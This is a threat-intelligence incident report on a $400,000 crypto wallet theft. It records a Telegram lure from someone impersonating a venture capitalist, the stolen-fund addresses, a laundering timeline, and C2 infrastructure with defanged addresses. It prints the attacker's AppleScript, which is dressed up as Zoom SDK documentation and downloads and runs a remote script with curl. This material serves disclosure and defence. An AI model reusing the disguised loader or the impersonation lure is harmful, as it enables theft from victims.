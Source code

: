 # Theft from Individual C4

Date:: June 28th, 2024

Time:: 06:19

Amount Stolen: $400,000

Tags:: 🔑

---

## Details

Contacted by Telegram account impersonating VC.

jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained. 



## Onchain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1 - Theft

- 0x47aac2e0d93baf0e5b0cd66032041f5f02af7945 - Theft/Consolidation (Moves July 18, 2023)
  
- 0x7527690cdc36e3180197d9b65d6bb86101b27718 - eXch Depo
- 0x8d04169c64a4f083154cfe1e7c4f84073489f584 - eXch Depo
- 0x7ea5c7e866bbee6535b33c30ba4b5eab3506cfdf - eXch Depo
- 0xc14857054571ca848d30b3be832434a31cba267c - eXch Depo
- 0x25796e53bd64c4a922d9b004d9806be211d01ed1 - eXch Depo
- 0x1a4885b76a88fc8c7ad667944129fccacefd2ed6 - eXch Depo
- 0x7d577a5ca50ecf947900eab06943da4d003e19a1 - eXch Depo
- 0x9258d93045a2974874178001adc1f2b9b6a6e975 - eXch Depo


## Timeline

- 2024-Jun-28 06:19 - Theft
- 2024-Jul-18 00:38 - Consolidation
- 2024-Jul-23 01:16 - Laundry 
- 2024-Aug-26 00:50 - Laundry 


## Connections

- C7 Theft


## Further Reading

- https://twitter.com/ValidinLLC/status/1788134423273034033



## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon


## Malicious Script

############################################################### 
#                     
# 
# 🎦 Meeting SDK                 
# 
#                     
# # Embed the Zoom meeting and webinar experience in an app or website.     
# 
#                     
# #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar    
# #  experience in your app or website. The Meeting SDK interface resembles the Zoom   
# #  client, except that it lives inside your own app or website.        
# 
#                     
# # Enhance the users' experience              
# 
#                                
# 
#  Native platforms for mobile and desktop offer a default UI, which looks similar to the   
# 
#  Zoom client, and a custom UI, which offers the ability to completely customize the   
# 
#   user interface.                 
# 
#                     
# 
#   The web SDK offers a client view, which looks similar to the Zoom client, and a    
# 
#   modular component view, which displays the Meeting SDK in components on your   
# 
#   website.                  
# 
#                     
# # Meeting and webinar authorization             
# 
#                      
# #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let   
# #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on  
# #  behalf of other users using a ZAK (Zoom Access Key) token.        
# 
#                     
# 
#      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.   
# 
#                     
# #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to  
# #  to connect their accounts to your Meeting SDK.          
# 
#                         
# 
#                     
# 
##############################################################
#   
#  Start meeting using ZAK(Zoom Access Key)token.  
set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc



## C2s

- support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.




## Related Incidents

- 7xvc[.]virtual-collab[.]online

- support[.]virtual-collab[.]online

- www[.]virtual-collab[.]online

- technical-support[.]virtual-collab[.]online


![](../images/2024-07-01_SQ_7xv_1.jpg)

![](../images/2024-07-01_SQ_7xv_2.jpg)

![](../images/2024-07-01_SQ_7xv_3.jpg)



